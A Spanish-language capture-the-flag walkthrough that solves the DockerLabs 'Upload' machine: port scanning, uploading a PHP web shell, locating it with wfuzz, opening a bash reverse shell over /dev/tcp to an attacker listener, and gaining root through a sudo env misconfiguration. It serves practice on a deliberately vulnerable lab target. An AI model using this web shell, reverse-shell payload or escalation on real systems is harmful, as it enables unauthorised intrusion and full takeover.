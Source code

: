 ![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-banner.png)

[Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos con un escaneo de nmap a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

El puerto 80 corresponde a un servicio de http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un escaneo sobre este con un conjunto de scripts basicos de reconocimiento que trae por defecto nmap.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
Guiandonos por el escaneo podemos ver que dentro del puerto 80 se aloja una pagina web que, tal parece, nos dejara subir archivos a la maquina.

Visualizamos la pagina web.

![image](https://github.com/Crisstianpd/CTFs/blob/da0262891d6ffdbc167d40b4916f9aabcbd30f15/DockerLabs/Easy/Upload/imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo php con el que podamos ejecutar comandos atraves de un paramentro. Y es justo lo que haremos.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

Despues de crear el archivo lo subiremos a la servidor. Y ahora tenemos que encontrar la ruta en donde ha sido guardado nuestro archivo.

Para ello, haremos uso de wfuzz para buscar esa ruta o directorio en donde deberia estar nuestro archivo test.php.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

Si revisamos el directorio que nos ha econtrado llamado "uploads", podremos oberservar que ahi se encuntra alojado nuestro archivo test.php.

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando "id" en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando "id" por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con netcat por el puerto 443.
```shell
nc -nlvp 443
```
Y hacemos la siguiente peticion cambiando el "&" por su expresion en URL, un %26, para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](https://github.com/Crisstianpd/CTFs/blob/c7607027a54663a493ee8f98bae0e294bba35842/DockerLabs/Easy/Upload/imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario www-data.

## Escalada de privilegios

Comenzamos ejecuntadno un "sudo -l" para ver si exiten algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que podemos ejecutar el comando "env" como usuario root. Por ende, ejecutamos una bash atraves del comando env con ayuda de un sudo.
```shell
sudo env /bin/bash
```

![image](https://github.com/Crisstianpd/CTFs/blob/f45ffec0d097da4e06089b4f4224cc077d4140cd/DockerLabs/Easy/Upload/imgs/upload-img5.png)
Y comprobamos finalmente atraves de un whoami he id que ya nos econtramos como usuario root.

Y de esta forma hemos resuelto la maquina Upload de DockerLabs.






